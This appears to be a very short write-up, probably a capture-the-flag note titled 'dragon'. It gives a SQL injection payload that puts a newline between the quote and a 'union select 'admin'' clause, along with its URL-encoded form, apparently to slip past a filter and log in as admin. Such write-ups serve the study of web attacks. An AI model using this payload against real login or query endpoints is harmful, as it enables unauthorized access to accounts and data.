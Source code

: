 ```yaml
---
layout: default
title: dragon
---
```




The payload will be 
```
'
and 0 union select 'admin'--%0b
```

notice the \n between `'` and `and`

the encoded payload is `%27%0Aand%200%20union%20select%20%27admin%27--%0b`